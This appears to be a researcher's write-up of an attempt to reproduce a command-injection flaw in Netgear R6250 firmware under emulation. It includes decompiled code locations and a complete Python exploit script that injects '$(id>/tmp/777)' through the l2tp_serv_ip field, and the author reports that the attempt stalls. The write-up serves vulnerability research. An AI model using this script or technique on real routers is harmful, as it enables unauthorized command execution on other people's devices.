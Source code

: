 The issues encountered while replicating the vulnerability in Netgear's R6250 firmware.<br>
![image](https://github.com/jiangly027/CVE/assets/106513072/2bfa4a58-44ab-440c-b3b5-bde4029eebf4)<br>
The location of the vulnerability.<br>
Firstly, in the httpd.idb file, within the function sub_20BD0, at address 0x71, pass a value of 2048 bytes into the variable 'l2tp_serv_ip<br>
![image](https://github.com/jiangly027/CVE/assets/106513072/cf186a20-c3cd-4bf5-878e-06c08cff570c)
<br>
Afterwards, in the acos_service.idb file, within the sub_E9C0 function, set the size of v37 to 128 characters.
![image](https://github.com/jiangly027/CVE/assets/106513072/c789145e-0afb-49cf-8488-dec8805f9759)
<br>
<br>
However, at line 152, a size of 2048 bytes is passed in, leading to a vulnerability. This might result in command injection errors after using the system function
![1704440216163](https://github.com/jiangly027/CVE/assets/106513072/e241b46c-ddc4-4a3d-ae14-12282069b2f0)


Successfully simulated the R6250 firmware
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705433346-beee11f2-3550-499a-904a-0454fd5d032d.png" alt="图片alt" title="图片title">
The firmware's front-end interface can also be accessed/opened.
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702705679159-accb6729-d38c-4023-a5f4-e1c65eb30b0a.png?x-oss-process=image%2Fresize%2Cw_1031%2Climit_0" alt="图片alt" title="图片title">
Scripting for command injection.<br>
<img src="https://cdn.nlark.com/yuque/0/2023/png/36169506/1702716601097-9373a536-f372-42b6-8d0c-232504d5cecc.png" alt="图片alt" title="图片title">

<pre>
import requests
import base64
import re

target = '192.168.1.1'
username = 'admin'
passwd = '123'
username_passwd = username + ":" + passwd
auth = base64.b64encode(username_passwd.encode('utf-8')).decode("utf-8")
cmd = "$(id>/tmp/777)"
print(auth)

#request 1 : get XSRF_TOKEN
burp0_url = "http://" + target + ":80/BAS_l2tp.htm"
burp0_cookies = {"XSRF_TOKEN": "2267229739"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic 123123", "Connection": "close", "Upgrade-Insecure-Requests": "1"}
response1 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

if 'Set-Cookie' in response1.headers:
    set_cookie = response1.headers['Set-Cookie']
    print(f'The Set-Cookie value is: {set_cookie}')
else:
    print('No Set-Cookie field in the response header')

pattern = r'(?<=\=)([^;]*)'
XSRF_TOKEN = re.findall(pattern, set_cookie)[0]
print(XSRF_TOKEN)

#request 2 : get csrf_id
burp0_cookies = {"XSRF_TOKEN": XSRF_TOKEN}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/IPV6_disable.htm", "Upgrade-Insecure-Requests": "1"}
response2 = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
pattern = r'cgi\?id=([\w\d]+)'
csrf_id = re.search(pattern, response2.text).group(1)
print("csrf_id is :" + csrf_id)

#request 3 : send payload
burp0_url = "http://" + target + ":80/l2tp.cgi?id=" + csrf_id
burp0_data = {"apply": "Apply", "l2tp_serv_ip":cmd,"wan_proto": "l2tp","static_l2tp_enable":"1","l2tp_gateway":"192.168.0.1","l2tp_user_netmask":"255.255.255.0"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "text/plain", "Origin": "http://" + target, "Authorization": "Basic " + auth, "Connection": "close", "Referer": "http://" + target + "/VLAN_IPTV.htm", "Upgrade-Insecure-Requests": "1"}

response3 = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

print('end!!!')
</pre>
However, whether using a Python script or Burp Suite for injection, it leads to the front-end interface being stuck in a perpetual loading state.<br>
![image](https://github.com/jiangly027/CVE/assets/106513072/41784d79-3db9-411f-b3d8-07360f1245ed)
In the command line, there are instances where the connection to the firmware cannot be established.<br>
![image](https://github.com/jiangly027/CVE/assets/106513072/83daf420-79be-4ac6-92be-d9fc071a7ae9)

